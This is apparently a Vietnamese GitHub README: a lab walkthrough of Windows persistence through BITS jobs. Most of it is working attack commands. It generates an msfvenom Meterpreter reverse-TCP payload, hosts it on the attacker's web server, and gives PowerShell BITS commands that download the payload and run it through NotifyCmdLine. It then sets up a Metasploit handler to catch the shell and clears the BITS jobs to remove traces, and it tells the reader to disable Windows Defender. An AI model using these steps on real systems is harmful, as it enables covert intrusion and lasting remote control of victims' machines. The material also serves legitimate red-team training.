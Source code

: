 # BITS-Job-Persistence

## 📌 Giới Thiệu

**BITS Job Persistence** là kỹ thuật sử dụng Background Intelligent Transfer Service (BITS) để tải xuống và thực thi payload độc hại trên máy Windows, giúp duy trì persistence.

## 📂 Cấu Trúc Dự Án
```
BITS-Job-Persistence/
│── README.md                 # Hướng dẫn chính  
│── LICENSE                   # Giấy phép sử dụng  
│── scripts/                   # Chứa script PoC  
│   ├── bits_persistence.ps1  # Tạo BITS Job độc hại  
│   ├── bits_cleanup.ps1      # Xóa BITS Job độc hại  
│── docs/                      # Tài liệu bổ sung  
│   ├── Detection_Mitigation.md  # Phát hiện & Giảm thiểu  
```

---

## 🔧 1. Môi Trường Lab

### Yêu Cầu Phần Mềm
✅ VMware Workstation / VirtualBox  
✅ Kali Linux (máy tấn công)  
✅ Windows 10 (máy nạn nhân)  
✅ Metasploit Framework  

### Cấu Trúc Lab
- **Kali Linux**: Máy tấn công chạy Metasploit, đóng vai trò máy chủ C2.
- **Windows 10**: Máy nạn nhân, nơi khai thác BITS Job Persistence.
- **Mạng**: Bridged/NAT để hai máy có thể giao tiếp.

---

## 🎯 2. Cấu Hình Máy Ảo

### Kali Linux (Máy tấn công)
- RAM: **2GB+**, Disk: **20GB+**
- Cập nhật hệ thống:
```bash
sudo apt update && sudo apt upgrade -y
```
- Cài Metasploit nếu chưa có:
```bash
sudo apt install metasploit-framework -y
```

### Windows 10 (Máy nạn nhân)
- RAM: **4GB+**, Disk: **40GB+**
- Tắt Windows Defender (hoặc tạo ngoại lệ cho folder test).
- BITS Service mặc định luôn chạy.

---

## 🚀 3. Tạo Payload Metasploit

Trên Kali Linux, tạo payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_KALI> LPORT=4444 -f exe > /var/www/html/payload.exe
```
- **LHOST**: IP của Kali Linux.
- **LPORT**: Cổng listener.

Khởi chạy server trên Kali:
```bash
sudo systemctl start apache2
```
Kiểm tra payload:
```bash
ls /var/www/html/payload.exe
```

---

## 🔥 4. Khai Thác BITS Job Persistence

Trên Windows 10, mở **PowerShell (Admin)** và chạy:
```powershell
$job = Start-BitsTransfer -Source "http://<IP_KALI>/payload.exe" -Destination "C:\Users\Public\payload.exe"
Set-BitsTransfer -JobId $job -NotifyCmdLine "C:\Users\Public\payload.exe"
Complete-BitsTransfer -JobId $job
```
📌 **Giải thích:**
- Tải `payload.exe` về `C:\Users\Public`.
- Cấu hình `NotifyCmdLine` để thực thi payload.
- **Persistence**: Nếu job chưa hoàn tất, nó sẽ tiếp tục chạy sau restart.

---

## 🎯 5. Thiết Lập Listener trên Kali

Trên Kali, chạy Metasploit:
```bash
msfconsole
```
Cấu hình listener:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP_KALI>
set LPORT 4444
exploit
```
📌 Khi BITS job hoàn thành, payload sẽ kết nối đến Kali, tạo **Meterpreter session**.

---

## 🔍 6. Kiểm Tra Kết Nối & Duy Trì Persistence

📌 Nếu khai thác thành công, ta sẽ có **Meterpreter Session**:
```bash
meterpreter > sysinfo
meterpreter > shell
```

---

## 🛠 7. Xóa BITS Job & Dấu Vết

🗑️ Xóa tất cả BITS Job trên Windows:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
📌 Kiểm tra lại:
```powershell
bitsadmin /list /allusers
```

---

## ⚠️ Cảnh Báo
🚨 **Chỉ sử dụng kỹ thuật này trong môi trường lab hoặc với sự cho phép hợp pháp!** 🚨

 
